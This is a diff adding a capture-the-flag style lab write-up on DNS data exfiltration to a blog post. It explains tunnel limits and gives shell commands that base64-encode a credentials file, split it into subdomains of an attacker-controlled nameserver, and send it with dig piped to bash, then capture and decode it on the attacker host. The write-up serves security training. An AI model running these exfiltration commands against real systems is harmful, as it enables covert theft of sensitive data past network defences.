

completed DNS Manual Exfil section

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.8656, 0.1818, 0.9274, 0.2121]]

diff --git a/_posts/2023-10-20-Data Exfiltration.md b/_posts/2023-10-20-Data Exfiltration.md
@@ -445,4 +445,153 @@ To confim that all communications go through ICMP, we can capture the network tr
 
 ![tcpdump](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)
 
-## 7. DNS Configurations
+### 7. DNS Data Exfiltration
+
+### 7.1 DNS Configurations
+
+In order to perform DNS Data Exfiltration, we need to **control a domain name** and **set up DNS records**. For this task, a domain name has been already set up for us, `tunnel.com`, and we can add our own DNS records by visiting the web server via our browser: `http://ATTACKER_IP`. 
+
+![DNS Changer Homepage](dns-changer-home.png)
+
+There is also a newly added `attacker` machine within Network 2 with the following details:
+
+|**Domain Name**|**IP Address**|**Network Access**|
+|---|---|---|
+|attacker.thm.com|172.20.0.200|Network 2|
+
+The goal is for `attacker.thm.com` to access network devices on Network 1 through `jump.thm.com`.
+
+![Network 2 to Network 1 Access](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e6bf2c81281be5cf8515eeed22254643.png)
+
+The rooms recommends to use the `jump.thm.com` machine for completing the task, so we will follow its advice. This means, that we don't have to manually add the `A` and `NS` DNS records, as the following are already set up for us:
+
+|**DNS Record**|**Type**|**Value**|
+|---|---|---|
+|attNS.tunnel.com|A|172.20.0.200|
+|att.tunnel.com|NS|attNS.tunnel.com|
+
+To verify that everything is there we can test our DNS configuration as follows:
+
+```shell
+# connect to jump.thm.com via SSH
+ssh thm@MACHINE-IP
+# password: tryhackme
+
+# resolve test.thm.com
+thm@jump-box:~$ dig +short test.thm.com
+# 127.0.0.1
+
+# send an ICMPEcho Request to test.thm.com to verify connectivity
+thm@jump-box:~$ ping test.thm.com -c 1
+```
+
+![DNS Testing](dns-testing.png)
+
+We can also answer the room's question by resolving `flag.thm.com`:
+
+![DNS Flag1](dns-flag.png)
+
+### 7.2 DNS Manual Data Exfiltration
+
+DNS's primary purpose it to **resolve domain names to IP addresses** and vice versa. Since DNS is not a transport protocol, **DNS traffic is not regurarly monitored**, and, in addition, most company **firewalls will allow DNS traffic** to pass through. 
+
+Although the above might seem ideal, DNS has also some limitations:
+1. The maximum length of the **Fully Qualified Domain Name (FQDN)** is 255 characters.
+2. The maximum length of the **subdomain name**, aka label, is 63 characters.
+
+![DNS Limitations](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/8bbc858294e45de16712024af22181fc.png)
+
+Based on the above, **we can use a limited number of characters to transfer data over the domain name**. If we have a large file, for example, 10 Megabytes, it may need more than 50_000 DNS requests to transfer it, and, as a result, it will generate a lot of noise.
+
+The steps to perform DNS Data Exfiltration are:
+1. The attacker registers a domain name. We already have `tunnel.com`. 
+2. The attacker sets up the domain name's DNS record points to a server under his control.
+3. The attacker sends sensitive data from a target to a domain name under his control, e.g. `passw0rd.tunnel.com`, where `passw0rd` is the data the needs to be exfiltrated.
+4. The DNS request is sent through the local DNS server and is forwarded through the internet.
+5. The attacker's authoritative DNS receives the DNS request. 
+6. The attacker extracts the data from the domain name.
+
+![DNS Data Exfil Process](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/9881e420044ca01239d34c858342b888.png)
+
+Let's assume that we have a filed called `creds.txt`, and we want to move it over DNS. We first need to encode its content and attach it as a subdomain by performing the following steps:
+1. Get the required data that needs to be exfiltrated.
+2. Encode the data.
+3. Send the encoded data as a subdomain, keeping in mind the DNS length limitations. If we exceed those limits, the data will be split and more DNS requests will be sent.
+
+![creds.txt example](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/a7ac15da0501d577dadcf53b4143ff98.png)
+
+Our goal for this task if to transfer the content of the `credit.txt` file from `victim2.thm.com` to `attacker.thm.com` using the `att.tunnel.com` nameserver. 
+
+1. We need to make the `attacker` machine ready to receive DNS requests. We will connect to it via SSH (via fist connecting to `jump.thm.com`), and then we will capture the network traffic for any incoming UDP/53 packets using `tcpdump`:
+
+    ```shell
+    # connect to attacker via SSH
+    thm@jump-box$ ssh thm@attacker.thm.com
+    # password: tryhackme
+
+    # capture incoming UDP/53 packets
+    sudo tcpdump -i eth0 udp port 53 -v
+    # tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
+    ```
+
+2. We can now connect to `victim2.thm.com` through SSH (by first connecto to `jump.thm.com`):
+
+    ```shell
+    # connect to victim2 via SSH
+    thm@jump-box$ ssh thm@victim2.thm.com
+    # password: tryhackme
+    ```
+
+    As we can see, there is a `task9/credit.txt` file, which we need to encode:
+
+    ```shell
+    victim2$ cat task9/credit.txt
+    # Name: THM-user
+    # Address: 1234 Internet, THM
+    # Credit Card: 1234-1234-1234-1234
+    # Expire: 05/05/2022
+    # Code: 1337
+
+    victim2$ cat task9/credit.txt | base64
+    # TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAxMjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
+    ```
+
+3. We now need to split the encoded data into one or more DNS requests depending on the output's length and attach it as a subdomain name:
+
+    ```shell
+    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
+    ```
+
+    After encoding the data in `base64`, we cleaned the string by removing the new line symbol `\n`, and gathered every 18 characters as a group. Finally, we appended the nameserver `att.tunnel.com` in every group.
+
+    Another way of doing this, is by splitting every 18 characters with a dot `.` and add the nameserver after:
+
+    ```shell
+    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
+    ```
+
+![Encoding and formatting data](dns-splitting-content.png)
+
+4. Next, from `victim2`, we must send the encoded data as a subdomain name:
+
+    ```shell
+    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
+    ```
+
+    With some adjustments to the single DNS request, we created and added the `dig` command to send it over DNS, and, finally, we passed it to `bash` to be executed.
+
+    ![DNS Data Exfil](dns-data-transfer.png)
+
+5. Once our DNS request is received, we can stop `tcpdump`, clean, and decode the received data:
+
+```shell
+thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
+# Name: THM-user
+# Address: 1234 Internet, THM
+# Credit Card: 1234-1234-1234-1234
+# Expire: 05/05/2022
+# Code: 1337
+```
+
+![dns-cleaning-decoding-data](dns-cleaning-decoding-data.png)
+
